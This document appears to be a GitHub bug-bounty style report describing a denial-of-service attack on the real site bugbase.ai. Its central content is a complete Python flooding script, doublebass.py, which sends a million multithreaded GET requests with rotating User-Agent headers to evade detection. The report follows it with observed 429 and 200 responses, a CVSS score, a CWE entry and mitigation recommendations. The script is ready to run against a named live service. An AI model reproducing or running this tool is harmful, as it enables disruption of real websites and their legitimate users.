 # Do_you_like_bass
Bugbase Ddos

### Report: DDoS through Resource Exhaustion Using `doublebass.py`

#### Overview

This report details a Distributed Denial of Service (DDoS) attack executed through resource exhaustion using a Python script (`doublebass.py`). The attack targets the website `https://bugbase.ai`, aiming to overload its resources and deny legitimate access. The script generates a high volume of GET requests using randomly generated URLs, leveraging multi-threading to maximize impact.

#### Attack Description

**Script: `doublebass.py`**
- The script sends a large number of GET requests to the target URL with randomized suffixes.
- It utilizes multi-threading to create parallel requests, significantly increasing the load on the target server.
- User-Agent headers are rotated to mimic requests from different devices and platforms, making detection harder.
- The script can be configured to repeat the attack a specified number of times (set to 1,000,000 in the example).

```python
import requests
import threading
import random
import string
import time

# Base URL pattern with a placeholder for the random suffix
base_url_pattern = "https://bugbase.ai/dashboard/reports/{suffix}"

# Function to generate random suffixes
def generate_random_suffix(length=24):
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# List of user agents to rotate through
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents as needed
]

# Number of times to repeat the attack
repeat = 1000000  # Set this to a large number for a heavier attack simulation

# Function to perform the GET request
def perform_get_request(base_url_pattern, headers, i):
    try:
        random_suffix = generate_random_suffix()
        url = base_url_pattern.format(suffix=random_suffix)

        response = requests.get(url, headers=headers)

        # Print out the response code, final URL after redirect, and the payload used
        print(f"Attempt {i + 1}: Requested URL {url} - Final URL: {response.url} - Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error occurred: {e}")

# Function to handle threading
def get_with_threads(base_url_pattern, repeat):
    threads = []
    for i in range(repeat):
        headers = {
            'User-Agent': user_agents[i % len(user_agents)],
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Connection': 'keep-alive',
        }

        if len(threads) >= 100:  # Manage thread count
            for thread in threads:
                thread.join()
            threads = []

        thread = threading.Thread(target=perform_get_request, args=(base_url_pattern, headers, i))
        threads.append(thread)
        thread.start()

     #   time.sleep(0.001)  # Optional delay to manage rate-limiting

    # Wait for all remaining threads to complete
    for thread in threads:
        thread.join()

# Example usage
if __name__ == "__main__":
    get_with_threads(base_url_pattern, repeat)
```
  
**Observed Behavior:**
- The attack led to HTTP 429 errors (`Too Many Requests`), indicating the server's rate-limiting mechanisms were triggered.
- Successful status code 200 responses were also observed, indicating some requests bypassed the rate-limiting temporarily.

#### Images and Script Evidence

1. **Evidence of Attack Execution:**
   ![computer check](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/blob/PXL_20240909_095222744.jpg)
   
   This image shows the browser displaying an HTTP 429 error (`Too Many Requests`) during the attack.

2. **Script Execution Output:**
   ![termint output](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/main/Screenshot_20240909-105211.png)
   
   This screenshot captures the script's execution on a mobile device, showing numerous GET requests sent to `https://bugbase.ai` and corresponding status codes.

#### Impact Assessment

**Potential Impact:**
- **Resource Depletion:** The flood of requests can deplete server resources, including CPU, memory, and bandwidth, potentially causing downtime.
- **Service Disruption:** Legitimate users may be unable to access the website, leading to a loss of business, reputation damage, and potential financial losses.

**CVSS Score:**
- **Base Score:** 7.5 (High)
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- **Explanation:** The attack is remotely exploitable with low complexity, requiring no authentication. It primarily affects the availability of the target website without compromising confidentiality or integrity.

**CWE ID:**
- **CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')**
  - **Description:** The vulnerability occurs when an attacker can send a large number of requests or cause significant processing overhead, leading to resource exhaustion on the server.

#### Conclusion

The `doublebass.py` script effectively simulates a DDoS attack through resource exhaustion, impacting the availability of `https://bugbase.ai`. The attack triggers rate-limiting mechanisms but continues to overload the server, causing intermittent service disruptions. To mitigate such attacks, implementing stronger rate-limiting, IP blacklisting, and using a content delivery network (CDN) with DDoS protection are recommended.

#### Recommendations:
- **Rate Limiting:** Strengthen the existing rate-limiting rules to block repetitive requests more aggressively.
- **DDoS Mitigation Services:** Implement DDoS protection services such as Cloudflare or AWS Shield to absorb and filter malicious traffic.
- **Server Hardening:** Optimize server configurations to handle a higher volume of requests without resource depletion.
